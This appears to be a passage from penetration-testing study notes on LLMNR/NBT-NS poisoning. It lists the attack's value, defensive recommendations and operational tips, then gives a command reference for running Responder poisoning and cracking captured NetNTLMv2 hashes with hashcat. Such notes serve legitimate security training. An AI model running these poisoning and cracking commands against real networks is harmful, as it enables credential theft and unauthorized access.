 ### Network Impact
**Potential issues:**
- **Service disruption** from poisoned responses
- **Network instability** if using `-r` flag
- **Alerting** security teams to testing activity

---

## Key Takeaways

### Attack Value
- **Low technical barrier** to entry
- **High success rate** in many environments
- **Provides domain foothold** for further attacks
- **Passive collection** while performing other tasks

### Defensive Recommendations
1. **Disable LLMNR/NBT-NS** where possible
2. **Implement network segmentation**
3. **Monitor authentication patterns**
4. **Use strong password policies**
5. **Deploy SMB signing** to prevent relay attacks

### Operational Tips
- **Start early** in assessment (passive collection)
- **Run continuously** during testing
- **Combine with enumeration** activities
- **Prioritize hash cracking** based on enumeration results

---

## Command Reference

### Responder Operations
```bash
# Passive analysis
sudo responder -I ens224 -A

# Active poisoning
sudo responder -I ens224
sudo responder -I ens224 -wf     # With WPAD + fingerprinting

# Check logs
ls /usr/share/responder/logs/
tail -f /usr/share/responder/logs/Responder-Session.log
```

### Hash Processing
```bash
# Crack NetNTLMv2 hashes
hashcat -m 5600 hash_file.txt /usr/share/wordlists/rockyou.txt

# Show cracked hashes
hashcat -m 5600 hash_file.txt --show

# Extract just the password
hashcat -m 5600 hash_file.txt --show | cut -d: -f6
```
